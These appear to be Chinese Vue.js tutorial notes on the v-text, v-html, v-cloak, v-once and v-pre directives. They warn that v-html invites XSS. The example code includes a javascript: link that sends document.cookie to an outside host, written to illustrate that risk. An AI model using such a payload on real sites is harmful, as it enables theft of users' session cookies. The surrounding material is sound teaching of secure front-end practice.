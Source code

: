 **v-text指令**：

1.作用：向其所在的节点中渲染文本内容。

2.与插值语法的区别：v-text会替换掉节点中的内容，{&#8203;{xx}}则不会。

**v-html指令**：

  1.作用：向指定节点中渲染包含html结构的内容。

  2.与插值语法的区别：

     (1).v-html会替换掉节点中所有的内容，{&#8203;{xx}}则不会。
    
     (2).v-html可以识别html结构。

  3.严重注意：v-html有安全性问题！！！！

     (1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
    
     (2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

**v-cloak指令**（没有值）：

    1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
    
    2.使用css配合v-cloak可以解决网速慢时页面展示出{&#8203;{xxx}}的问题。

**v-once指令**：

   1.v-once所在节点在初次动态渲染后，就视为静态内容了。

   2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

**v-pre指令**：

    1.跳过其所在节点的编译过程。
    
    2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<div id="root">
  <div v-text="name"></div>
  <div v-text="str"></div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
  <h2 v-pre>该节点没有指令语法,没有插值语法,可跳过编译</h2>
</div>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      n:1,
      name:'浙大',
      str:'<h3>你好啊！</h3>',
      str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    }
  })
</script>
```
## 16.自定义指令
需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。
